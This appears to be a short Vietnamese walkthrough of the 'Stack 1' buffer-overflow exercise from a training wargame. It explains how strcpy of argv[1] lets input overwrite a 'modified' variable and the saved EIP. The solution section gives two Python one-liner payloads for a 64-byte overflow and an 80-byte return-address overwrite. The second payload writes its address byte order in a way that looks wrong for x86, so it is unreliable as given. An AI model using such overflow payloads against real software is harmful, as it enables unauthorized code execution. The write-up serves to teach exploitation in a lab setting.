



# Stack 1

## Description

Khi chạy chương trình yêu cầu truyền vào 1 argument. Chúng ta cùng xem thử qua hàm main nhé.

bỏ qua phần check arg vào main, chúng ta quan tâm từ main+35. Nhìn qua thì nó tương tự bài stack0, chúng ta có thể ghi đè modified, thay đổi EIP. Và modified yêu cầu một giá trị cụ thể chứ ko chỉ là khác 0 như bài trước, đó là: `0x61626364`. Và một điểm khác hàm strcpy từ arg[1] vào buf thay vì hàm gets.

## Solution

### Buffer overflow

`payload: ./stack1 $(python -c 'print "a"*64+"\x64\x63\x62\x61"')`

### Ret2ret 

cho EIP jump về  `0x080484b2`. phần padding vẫn là 80byte giống stack0.

`payload: ./stack1 $(python -c 'print "a"*80 + "\x08\x04\x84\xb2"')`

